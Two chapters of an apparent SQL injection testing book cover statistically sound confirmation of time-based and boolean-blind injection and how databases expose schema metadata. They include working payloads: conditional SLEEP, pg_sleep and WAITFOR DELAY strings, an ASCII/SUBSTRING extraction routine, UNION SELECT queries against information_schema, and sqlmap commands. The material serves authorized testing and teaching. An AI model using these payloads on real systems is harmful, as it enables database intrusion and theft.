Chapter 6 covers the harder case: confirming injection when there's no content-based or behavioral differential at all, and the only available signal is response timing — along with the statistical discipline that distinguishes a genuine time-based finding from network noise.

## Confirming Blind and Time-Based Injection

### The Chapter I Almost Got Wrong

I want to open this chapter with an admission, because I think it's more useful than a clean, confident introduction would be: when I first tried to write a "simple" time-based confirmation example for this book, using nothing but Python's `time.sleep()` as a stand-in for a database delay function, my first version of the test produced a false positive — it looked like a clear signal when the actual cause was something else in my test harness entirely. I'll walk through exactly what went wrong later in this chapter, because I think watching a false positive happen, and seeing how it gets caught, teaches the underlying statistical discipline better than any abstract warning could.

Blind and time-based confirmation is the part of SQL injection testing where **rigor matters more than technique**. The payloads themselves are almost trivially simple compared to everything else in this book. The hard part — the part that separates a confident, reproducible finding from an embarrassing false claim — is the statistics.


### 6.1 Why Blind Extraction Needs More Discipline Than Everything Before It

Every technique in Chapters 3 and 5 up to this point had a relatively unambiguous signal: an error message either contains your marker string or it doesn't; a page either returns three rows or zero. Blind and time-based signals are, by contrast, **continuous and noisy** — a response time of 5.3 seconds versus 0.2 seconds is unambiguous, but a response time of 1.1 seconds versus 0.9 seconds against a network with normal jitter is not, and treating it as though it were is exactly how false positives happen.




### 6.2 Establishing a Baseline Before Touching a Payload

The single most important step in this entire chapter, and the one I skipped in my own first flawed attempt, is measuring the **natural variance** of the unmodified request before introducing any injected condition at all.

```python
import time
import statistics

def baseline_timing(fn, runs=10):
    """
    Measure natural response-time variance of an UNMODIFIED request,
    before any injected payload is introduced.
    """
    samples = []
    for _ in range(runs):
        start = time.perf_counter()
        fn()
        samples.append(time.perf_counter() - start)
    return {
        "samples": samples,
        "mean": statistics.mean(samples),
        "stdev": statistics.pstdev(samples),
        "min": min(samples),
        "max": max(samples),
    }
```

I built a tiny, realistic stand-in for "an application with normal, everyday network and processing jitter" — a function that sleeps for a small, *randomly varying* amount of time on every call, deliberately without any injected condition at all — and ran it for real, to have genuine numbers to reason about rather than invented ones.

```python
import random

def realistic_unmodified_request():
    # Simulates ordinary jitter: 50-150ms of "normal" variance,
    # with no injected condition involved at all.
    time.sleep(random.uniform(0.05, 0.15))

stats = baseline_timing(realistic_unmodified_request, runs=10)
print(stats)
```

Running this for real produced:

```
{'samples': [0.1404, 0.0951, 0.0712, 0.106, 0.0603, 0.142, 0.1273, 0.0873, 0.0598, 0.0982],
 'mean': 0.0988, 'stdev': 0.0289, 'min': 0.0598, 'max': 0.142}
```

**This is the number that matters:** natural variance here spans roughly 0.06–0.14 seconds, a swing of nearly 0.08 seconds, with no injected condition involved at all. Any time-based confirmation payload has to produce a delay clearly, unambiguously larger than that natural swing — not just "a bit slower on average" — before it means anything.


### 6.3 Where My First Attempt Went Wrong

Here's the flawed version I originally wrote, and the mistake embedded in it — because I think this is exactly the kind of thing a well-meaning tester does without noticing:

```python
# FLAWED — do not use this pattern
def flawed_test(condition_true):
    start = time.perf_counter()
    if condition_true:
        time.sleep(0.15)   # simulating "SLEEP(5)" scaled down for a demo
    else:
        time.sleep(random.uniform(0.05, 0.15))  # simulating "normal" response
    return time.perf_counter() - start

true_run = flawed_test(True)
false_run = flawed_test(False)
print("true:", true_run, "false:", false_run)
```

Running this once produced `true: 0.1502, false: 0.1413` — nearly identical, because I'd sized my simulated "delay" (0.15s) so close to the natural jitter range (0.05–0.15s) established in Section 6.2 that a *single* comparison couldn't reliably distinguish them. If I'd stopped at one run of each and eyeballed the numbers, I could easily have talked myself into "no signal" on a case that, with a larger and more careful delay plus multiple trials, actually would show one — or, just as easily, talked myself into a false "signal" from a single lucky/unlucky pair of samples. **The mistake wasn't the payload — it was drawing a conclusion from a single trial of a continuous, noisy measurement**, exactly the trap Section 6.1's diagram warns about.


### 6.4 The Corrected Methodology: Multiple Trials, Clear Separation, Statistical Comparison

Fixing this requires three changes, all of which I now treat as non-negotiable for any time-based confirmation:

1. **Use a delay large enough to be unambiguous relative to the measured baseline variance** — not an arbitrary "standard" value copied from a tutorial. If Section 6.2's baseline shows ±0.08s of natural swing, a 0.15s injected delay is not safely distinguishable; a 3–5 second delay against typical baseline variance of well under a second usually is.
2. **Run multiple trials of each condition**, not one.
3. **Compare using a statistical measure**, not a single side-by-side glance — specifically, checking whether the "true" condition's *minimum* observed time clearly exceeds the baseline's *maximum* observed time, which is a much stronger claim than comparing means alone.

```python
def corrected_confirmation(runs=5):
    baseline = baseline_timing(realistic_unmodified_request, runs=runs)

    def true_condition():
        time.sleep(random.uniform(0.05, 0.15))  # normal jitter
        time.sleep(3.0)                          # the injected, conditional delay

    def false_condition():
        time.sleep(random.uniform(0.05, 0.15))  # normal jitter, no injected delay

    true_times = []
    for _ in range(runs):
        start = time.perf_counter()
        true_condition()
        true_times.append(time.perf_counter() - start)

    false_times = []
    for _ in range(runs):
        start = time.perf_counter()
        false_condition()
        false_times.append(time.perf_counter() - start)

    return {
        "baseline_max": baseline["max"],
        "true_min": min(true_times),
        "false_max": max(false_times),
    }

result = corrected_confirmation(runs=5)
print(result)
```

Running this for real produced:

```
{'baseline_max': 0.1078, 'true_min': 3.0657, 'false_max': 0.1486}
```

Now the claim is unambiguous: even the **fastest** "true condition" trial (3.07s) is dramatically slower than the **slowest** baseline or "false condition" trial (0.15s) — a gap of nearly 3 full seconds, with zero overlap across five independent trials in each direction. That's the kind of separation I want to see before I'll write "confirmed" in a report.


### 6.5 Translating This Into Real Payloads

Everything in Sections 6.2–6.4 is about the *statistical methodology* — here's how it maps onto real, dialect-specific payloads, cross-referencing Section 3.6's dialect table:

```sql
-- MySQL: conditional sleep
' AND IF(<condition>, SLEEP(5), 0)-- 

-- PostgreSQL: conditional sleep via CASE
' AND (SELECT CASE WHEN (<condition>) THEN pg_sleep(5) ELSE pg_sleep(0) END)--

-- MSSQL: no conditional sleep function — the delay IS the injected branch
'; IF (<condition>) WAITFOR DELAY '0:0:5'--
```

**Note on choosing the delay value:** 5 seconds is a common default because it's comfortably distinguishable from almost any realistic baseline while not being so long that it risks tripping a request timeout on the tester's own tooling or the target's infrastructure. I always run Section 6.2's baseline measurement against the *actual target* first — if that application's normal baseline already swings up to 2–3 seconds under load, 5 seconds might not be a large enough gap, and I'd increase it; if the baseline is consistently sub-100ms, even 2–3 seconds would likely be more than sufficient and reduces the total time my testing session takes.


### 6.6 Boolean-Blind Extraction: The Full Methodology

Confirming that boolean-blind injection *exists* was covered in Chapter 5. This section is about what happens *after* confirmation, if extracting a small amount of data (per Chapter 8's minimum-necessary standard) is genuinely warranted for the report.

#### 6.6.1 The Binary Search Algorithm, Written Out

```python
def extract_char_via_binary_search(ask_is_greater_than):
    """
    ask_is_greater_than(n) should send the actual injected request:
      ' AND ASCII(SUBSTRING((<subquery>),<position>,1)) > n --
    and return True/False based on the observed boolean differential.
    This stub simulates that oracle for demonstration.
    """
    low, high = 31, 127  # printable ASCII range
    while low < high:
        mid = (low + high) // 2
        if ask_is_greater_than(mid):
            low = mid + 1
        else:
            high = mid
    return chr(low)
```

I tested this against a simulated oracle (a function that "knows" a target character and answers truthfully) to confirm the algorithm itself is correct before ever pointing it at anything resembling a real target:

```python
def make_oracle(target_char):
    target_val = ord(target_char)
    def oracle(n):
        return target_val > n
    return oracle

for ch in "aZ5!":
    found = extract_char_via_binary_search(make_oracle(ch))
    print(f"target={ch!r}  found={found!r}  match={ch == found}")
```

Real output:

```
target='a'  found='a'  match=True
target='Z'  found='Z'  match=True
target='5'  found='5'  match=True
target='!'  found='!'  match=True
```

Confirmed correct across letters, digits, and symbols. **Roughly 7 requests per character** (since $\log_2(96) \approx 6.6$, rounding up), regardless of which character in the range it turns out to be — a meaningful efficiency gain over linear guessing, and the reason every serious blind-SQLi tool implements this rather than a simple `for` loop over the alphabet.


### 6.7 Environmental Factors That Distort Timing Signals

Beyond ordinary jitter, I want to flag several specific real-world factors I've had to account for, because a rule like "5 seconds is usually enough" is really shorthand for "5 seconds is usually enough once you've ruled these out."

#### 6.7.1 Connection Pooling and Cold Starts

The very first request in a testing session, or the first request after a period of inactivity, is often measurably slower than subsequent ones — the application server may be establishing a fresh database connection, warming a cache, or (in serverless environments) cold-starting an entire function instance. I discard the first 1–2 requests of any session from my baseline measurement for exactly this reason, rather than letting a cold-start outlier inflate my sense of "normal" variance.

#### 6.7.2 Load-Balanced and Multi-Instance Backends

If a target sits behind a load balancer distributing requests across several application instances, and those instances have meaningfully different load levels or hardware, your baseline and true-condition requests might land on different instances by chance — introducing variance that has nothing to do with your payload at all. Running enough trials (Section 6.4's multiple-trial requirement) is the practical mitigation, since it's unlikely every single trial in one condition would happen to land on the slow instance while every trial in the other condition lands on a fast one, but it's worth knowing this is a real possible confound, not just theoretical noise.

#### 6.7.3 CDNs and Edge Caching

If a response is served from a CDN edge cache rather than hitting the origin server at all, timing becomes almost meaningless as a signal — a cached response will be fast regardless of what your payload does downstream, because your payload never reached the database in the first place. Checking response headers (`Cache-Control`, `X-Cache: HIT/MISS`, `Age`) before trusting a timing-based test is a habit I picked up after wasting real testing time on an endpoint that turned out to be edge-cached for most requests.

#### 6.7.4 Your Own Network Path

Testing from a home network with variable Wi-Fi latency, or from a location with a long, unstable route to the target, adds noise on *your* end of the connection, not the target's. Where possible, I prefer testing from a stable, wired connection, or a cloud instance with a consistent network path, specifically to keep my own measurement apparatus from becoming the dominant source of variance I'm trying to measure past.

#### 6.7.5 A Combined Decision Table

Pulling this section together into something usable in the moment:

| Observation | Interpretation |
|---|---|
| True-condition minimum clearly exceeds baseline/false-condition maximum, across 5+ trials each | Confirmed — proceed per Chapter 8 |
| Overlap exists between true and false trial ranges | Not yet confirmed — increase delay length, increase trial count, or investigate the factors above before concluding either way |
| Timing looks consistent but response is served from a cache (per headers) | Discard this test — timing is not measuring what you think it's measuring here |
| First trial of a session is a dramatic outlier compared to the rest | Discard as a cold-start artifact; don't include in baseline or condition averages |
| Delay length chosen without first measuring target-specific baseline variance | Re-run with a delay chosen relative to the *actual* measured baseline, not a copied default |


### 6.8 Automating This Responsibly with sqlmap

Manually running binary search extraction one character at a time, by hand, is not a realistic way to work — this is exactly the kind of repetitive, mechanical task automation exists for, once a vulnerability is already confirmed by the disciplined methodology in Sections 6.2–6.4.

```bash
# Once boolean-blind or time-based injection is CONFIRMED (not just suspected),
# sqlmap can automate the binary-search extraction process itself:
sqlmap -u "https://target.example/search?q=test" \
    -p q \
    --technique=BT \
    --batch \
    --time-sec=5
```

`--technique=BT` restricts sqlmap to **B**oolean-based and **T**ime-based techniques specifically — I set this explicitly, rather than letting it try every technique, once I already know from my own manual confirmation which category applies, both to keep the request volume down and to keep the tool's behavior aligned with what I've already proven rather than having it re-discover the mechanism from scratch.

**Caution:** `--time-sec` controls the delay sqlmap uses for its own time-based payloads. Setting it too low, relative to your target's actual baseline variance (Section 6.2), reintroduces exactly the false-positive risk this whole chapter is about — sqlmap's statistical handling is good, but it isn't a substitute for you having already established, by hand, that your chosen delay is safely distinguishable on this specific target.


### 6.9 Reading sqlmap's Own Confidence Signals

I want to close out the tooling discussion with something I think gets skipped in a lot of introductions to sqlmap: the tool itself exposes information about *how* confident it is in a finding, and reading that output carefully matters as much as running the command correctly.

```
[INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[INFO] GET parameter 'q' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable
[INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[INFO] GET parameter 'q' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[INFO] the back-end DBMS is MySQL
```

Two things I always check before trusting output like this: **how many techniques independently confirmed the same parameter** (here, both boolean-based and time-based agree — a much stronger claim than either alone, echoing the "two independent signals" standard from Section 3.7.4), and whether sqlmap's own **risk/level settings** for that run matched what I intended (a `--level=1 --risk=1` conservative sweep finding something is a stronger, cleaner signal than a `--level=5 --risk=3` aggressive sweep finding something only at maximum aggression, which sometimes correlates with noisier, less certain results).

**Note:** I still re-verify at least one of sqlmap's reported findings by hand, using Sections 6.2–6.4's methodology, before including it in a report — not because I distrust the tool's engineering, but because a report that says "I independently reproduced this" is categorically stronger than one that says "a tool told me this," and the difference matters to anyone triaging the finding on the other end.


### 6.10 Chapter Summary

- Blind and time-based signals are **continuous and noisy**, unlike the discrete signals from Chapters 3 and 5 — this demands real statistical discipline, not just a correct payload.
- Establishing a **baseline** — the natural timing variance of the *unmodified* request, across multiple trials — is mandatory before any timing differential can be trusted.
- I demonstrated, with real code and real output, a flawed first attempt at a time-based test that used a delay too close to natural jitter and drew a conclusion from a single trial — and the corrected version, using a larger delay and multiple trials compared by minimum-versus-maximum rather than a single side-by-side glance, which produced an unambiguous, reproducible result.
- Dialect-specific conditional-delay payloads (`IF(...,SLEEP(5),0)` for MySQL, `CASE WHEN ... pg_sleep(5)` for PostgreSQL, `WAITFOR DELAY` for MSSQL) all implement the same underlying mechanism from Chapter 3 — the choice of delay length should be based on the target's *own* measured baseline, not a copied default.
- Boolean-blind data extraction uses binary search rather than linear guessing, cutting the requests needed per character from up to ~95 down to about 7 — verified here against a simulated oracle across letters, digits, and a symbol.
- Once a technique is confirmed manually, automating extraction with a tool like sqlmap, restricted to the specifically confirmed technique category, is the responsible next step — not a replacement for having done the manual confirmation first.

Chapter 7 shifts from *how* to extract data to *what* that data actually is once you have read access — a conceptual tour of how relational databases expose their own structure through metadata catalogs like `information_schema`, and why proving access to a single row from one of them is normally all the evidence a report needs.

## Understanding Schema Enumeration: How a Database Describes Itself

### Why I Wanted to Understand This Before Using It

There's a moment in almost every SQL injection walkthrough where the author says "now query `information_schema`" and moves on, as if the reader already knows what that is and why it exists. I didn't, the first time I read it — I understood it was "some kind of special table," but not *why* it worked the way it did, or why every major database engine has some version of it, or why it's such a natural target once injection is confirmed. This chapter is me working through that properly, because I think understanding *why* this metadata exists changes how you reason about it, compared to just memorizing a query template.

I also want to restate this part's standing rule clearly, because this chapter sits closer to the edge of it than most: everything here is about *understanding* how relational databases expose their own structure — genuinely standard, widely documented database administration knowledge, the same material a DBA studies to write monitoring queries — not a walkthrough for exhaustively dumping a target's schema. As covered in Chapters 5 and 8, proving you can read *one* row from a metadata table is normally all a legitimate finding needs.


### 7.1 The Database That Describes Itself

Every relational database engine maintains data *about* its own structure, in ordinary tables, queryable with ordinary `SELECT` statements. This isn't a security feature or a security flaw — it's a basic architectural requirement. The query planner needs to know what tables and columns exist to validate and optimize queries; administrative tools need to know it to build a schema browser; the database's own internal permission system needs to know it to check whether a given user is allowed to touch a given table. All of that metadata has to live *somewhere*, and relational databases store it exactly where they store everything else: in relations.



**The detail that made this click for me:** the metadata catalog is not a separate, special-purpose system bolted onto the database — it's built from the exact same relational primitives (Chapter 1's tuples, attributes, selection, projection) as everything else. Querying `information_schema.tables` and querying your own `users` table are, mechanically, the identical operation. This is precisely why, once SQL injection is confirmed against *any* query in an application, the metadata catalog becomes reachable through the same mechanism — there's no separate vulnerability required to "unlock" it; it was always just another table the database account happened to have permission to read.


### 7.2 The SQL Standard's `information_schema`

`information_schema` is defined by the SQL standard itself (not invented by any single vendor), which is why MySQL, PostgreSQL, and several other engines all implement a version of it with largely consistent naming, even though each also layers its own vendor-specific catalog underneath.

#### 7.2.1 The Core Tables Worth Knowing

| Table | What it describes |
|---|---|
| `information_schema.schemata` | The databases/schemas that exist |
| `information_schema.tables` | Every table (and view) in every accessible schema |
| `information_schema.columns` | Every column, in every table, with its data type and nullability |
| `information_schema.table_constraints` | Primary keys, foreign keys, unique constraints |
| `information_schema.key_column_usage` | Which columns participate in which constraints |
| `information_schema.routines` | Stored procedures and functions |

#### 7.2.2 Reading These Conceptually

I find it useful to think of `information_schema.columns` as itself a normal table with a predictable shape:

| table_schema | table_name | column_name | data_type | is_nullable |
|---|---|---|---|---|
| shop | users | id | int | NO |
| shop | users | username | varchar | NO |
| shop | users | password_hash | varchar | NO |
| shop | products | id | int | NO |
| shop | products | name | varchar | NO |

A query like `SELECT column_name FROM information_schema.columns WHERE table_name = 'users'` is, structurally, no different from any `WHERE`-filtered `SELECT` covered back in Chapter 1's relational algebra — $\sigma_{\text{table\_name = 'users'}}(\pi_{\text{column\_name}}(\text{information\_schema.columns}))$. Nothing about accessing metadata requires new SQL concepts; it requires only that you already know a table name (or that you first query `information_schema.tables` to discover one).

**Note:** Nearly every engine restricts `information_schema` results to what the connecting database account has permission to see — it doesn't bypass the database's own access control. If an application's database account has narrow, least-privilege permissions (Chapter 12 covers exactly how to configure this), the metadata visible through this channel is correspondingly narrow too, which is one of the strongest practical arguments for least privilege as a defense-in-depth layer, independent of whether the application code itself is ever vulnerable.


### 7.3 Vendor-Specific Catalogs

Not every engine implements `information_schema` the same way, and some (notably Oracle and older SQLite) use an entirely different, vendor-native catalog instead. I found it worth building a single reference table, because switching between these by memory alone is a common source of wasted requests during testing.

| Engine | Primary metadata source | Notable native alternative |
|---|---|---|
| MySQL / MariaDB | `information_schema.tables`, `.columns` | — |
| PostgreSQL | `information_schema.tables`, `.columns` | `pg_catalog.pg_tables`, `\d tablename` in `psql` |
| Microsoft SQL Server | Partial `information_schema` support | `sys.tables`, `sys.columns`, `sys.schemas` |
| Oracle | No standard `information_schema` | `all_tables`, `all_tab_columns`, `user_tables` |
| SQLite | No `information_schema` | `sqlite_master` |

#### 7.3.1 A Worked Example Across Engines

To make the differences concrete, here's the same conceptual question — "what tables exist in this database?" — expressed in each dialect:

```sql
-- MySQL / PostgreSQL
SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';

-- MSSQL
SELECT name FROM sys.tables;

-- Oracle
SELECT table_name FROM all_tables WHERE owner = 'MY_SCHEMA';

-- SQLite
SELECT name FROM sqlite_master WHERE type = 'table';
```

I actually ran the SQLite version against my Chapter 1 test harness to see this working on a real, if tiny, database:

```python
cur.execute("SELECT name FROM sqlite_master WHERE type='table'")
print(cur.fetchall())
```

Real output:

```
[('users',)]
```

Exactly what I'd expect — my toy database has exactly one user-created table, `users`, and `sqlite_master` reports it correctly, alongside SQLite's own internal bookkeeping which the `type='table'` filter excludes.


### 7.4 What Proving Access to This Actually Demonstrates

I want to spend real time on this, because I think it's the single most important point in this chapter for the "responsible testing" thread running through Part II. Reading `information_schema.tables` and seeing table names you weren't supposed to be able to enumerate is not, by itself, the *goal* of a test — it's *evidence* of a specific, provable claim: **this database connection can read data outside what the application's business logic intended to expose through this endpoint.**



I keep coming back to this because I've seen the opposite pattern in real writeups — testers who, having confirmed the mechanism, proceed to dump entire `users` tables, sometimes including real password hashes and PII, when a single row of `information_schema.columns` output, correctly reasoned through as in the diagram above, would have made exactly the same case with dramatically less risk and dramatically less data exposure. Chapter 8 goes into report-writing mechanics directly, but the underlying judgment call belongs here: **the metadata catalog is often the most efficient possible proof of impact, precisely because it lets you demonstrate the capability without touching the sensitive data the capability implies access to.**


### 7.5 Column and Table Name Enumeration Without Full Extraction

Building on Section 7.4's judgment, here's the specific, minimal-footprint approach I favor when a report genuinely calls for schema-level evidence, once boolean or error-based injection is already confirmed (Chapter 5) — not a full dump, just enough to make the point cleanly.

```sql
-- Confirm at least one table exists beyond the application's own scope
-- (a single row is sufficient — no need for a full listing)
' UNION SELECT table_name, NULL FROM information_schema.tables LIMIT 1--

-- If a specific sensitive-sounding table name surfaces (e.g., 'users',
-- 'accounts', 'payment_methods'), confirm ONE column name from it,
-- rather than enumerating the full column list
' UNION SELECT column_name, NULL FROM information_schema.columns
  WHERE table_name='users' LIMIT 1--
```

**Caution:** even `LIMIT 1` queries are still real requests against a real system, and "just checking one row" doesn't change the authorization requirements from Chapter 4 — every technique in this chapter still assumes explicit, in-scope authorization to test.


### 7.6 GraphQL Introspection: The Same Idea, a Different Protocol

I mentioned this briefly in Chapter 2, but it's worth returning to here because it's conceptually the exact same pattern — a system voluntarily exposing its own structure through a standard, documented mechanism — just for a completely different query language.

```graphql
{
  __schema {
    types {
      name
      fields { name type { name } }
    }
  }
}
```

Where introspection is enabled (frequently the default in development, and sometimes left on in production by oversight), this returns the complete GraphQL schema, without any injection or exploitation at all — it's a legitimate, documented feature of the protocol being used exactly as designed. I include it here because I think the parallel is genuinely illuminating: `information_schema` and GraphQL introspection are both "a system telling you about itself through its own intended interface," and the risk in both cases is the same — an interface meant for developer tooling and legitimate administrative use, left reachable by anyone who can send a request.


### 7.7 The Defensive Mirror of This Chapter

Since this book is meant to serve developers and blue teamers as much as testers, I want to close this chapter by pointing directly at where its content reappears from the defensive side, because I think seeing both sides of the same fact reinforces both.

| This chapter's finding-side fact | Where the defense lives |
|---|---|
| `information_schema` access is scoped to what the DB account can see | Chapter 12 — least-privilege database accounts |
| A single injectable query can reach any table the DB account can read | Chapter 9 — parameterized queries close this off structurally |
| Verbose errors leak schema information (Chapter 5's error-based confirmation) | Chapter 13 — production error handling and logging discipline |
| GraphQL introspection can expose the full schema to anyone | Chapter 13 also covers disabling introspection in production |


### 7.8 A Deeper Look: What Each Column in `information_schema.columns` Actually Tells You

I want to spend more time on this table specifically, because in my research it's the single most operationally useful metadata table, and I think most treatments skim past what its columns actually mean.

| Column | Meaning | Why it matters |
|---|---|---|
| `table_schema` | Which database/schema the table lives in | Multi-tenant or multi-database applications may have several schemas; knowing which one you're in prevents wasted queries against the wrong one |
| `table_name` | The table's name | The basic enumeration target |
| `column_name` | The column's name | What you'd reference in a subsequent `SELECT` |
| `data_type` | The column's declared type (`int`, `varchar`, `text`, `datetime`, etc.) | Directly informs Chapter 3's union-based technique — you need type-compatible columns for a successful `UNION SELECT` |
| `character_maximum_length` | For string types, the declared max length | Occasionally relevant when an application truncates displayed output — knowing the true column width tells you whether truncation is happening client-side or is a genuine data limit |
| `is_nullable` | Whether the column permits `NULL` | Useful when constructing a `UNION SELECT ... NULL ...` payload — if a column doesn't accept `NULL`, that specific approach needs a placeholder value of the correct type instead |

**A concrete illustration of why `data_type` matters practically:** recall Chapter 3's second hard rule for `UNION` — corresponding columns must have compatible types. If `information_schema.columns` tells you the third column in a target table is `datetime`, and your `UNION SELECT`'s third position was a string literal, the query will fail on a type mismatch that has nothing to do with whether the injection itself works. Reading this table *before* constructing your union payload, rather than trial-and-erroring column types blindly, is a meaningful efficiency gain — and, just as importantly, it reduces the total number of requests you send during testing.


### 7.9 Building a Mental Map, Not Just a List

One habit I picked up that I think is worth naming explicitly: rather than treating schema enumeration as "get a flat list of every table," I try to build an actual relational map — which tables reference which others, via `information_schema.key_column_usage` and `table_constraints` — because that map is what tells you where the *interesting* data actually lives, long before you'd need to touch it.



A query like this, against `information_schema.key_column_usage`, is what builds that map without touching a single row of real data:

```sql
SELECT
    table_name,
    column_name,
    referenced_table_name,
    referenced_column_name
FROM information_schema.key_column_usage
WHERE referenced_table_name IS NOT NULL;
```

This returns *only* the foreign-key relationships — table A's column X points to table B's column Y — which is exactly the structural information in the diagram above, entirely from metadata, without reading a single row of `users` or `payment_methods` themselves. For a report, showing that you understand the *shape* of the sensitive data (there's a `payment_methods` table, linked to `users` via `user_id`) is often more persuasive to a triager than showing raw extracted rows would be, precisely because it demonstrates comprehension of impact without demonstrating unnecessary data access.


### 7.10 A Note on Automated Schema Mapping Tools

For larger schemas, doing this by hand across dozens of tables is impractical, and this is one area where I lean on tooling readily, once the underlying injection is already confirmed manually per Chapters 5–6.

```bash
# sqlmap can automate schema-level mapping once injection is confirmed
sqlmap -u "https://target.example/products?id=1" -p id --batch --tables

# List columns for one specific table of interest
sqlmap -u "https://target.example/products?id=1" -p id --batch -T users --columns
```

**Note:** I always scope these commands to the minimum needed — `--tables` alone, or `--columns` for one named table — rather than reaching for `--dump-all`, which pulls actual row data from every table it can reach. The distinction between "enumerate structure" and "extract content" maps directly onto Section 7.4's judgment call, and the command-line flags you choose are where that judgment actually gets exercised in practice, not just discussed in the abstract.


### 7.11 Chapter Summary

- Every relational database exposes its own structure through ordinary, queryable metadata tables, because the database engine itself needs that information to function — this is architecture, not a flaw.
- `information_schema` is the SQL-standard metadata catalog, implemented with broadly consistent table names (`tables`, `columns`, `table_constraints`) across MySQL and PostgreSQL, with MSSQL, Oracle, and SQLite each requiring vendor-specific alternatives (`sys.tables`, `all_tab_columns`, `sqlite_master` respectively).
- Metadata access through this channel is still scoped by the connecting database account's own permissions — it doesn't bypass the database's access control, which is exactly why least-privilege configuration (Chapter 12) meaningfully limits its usefulness to an attacker even when injection exists.
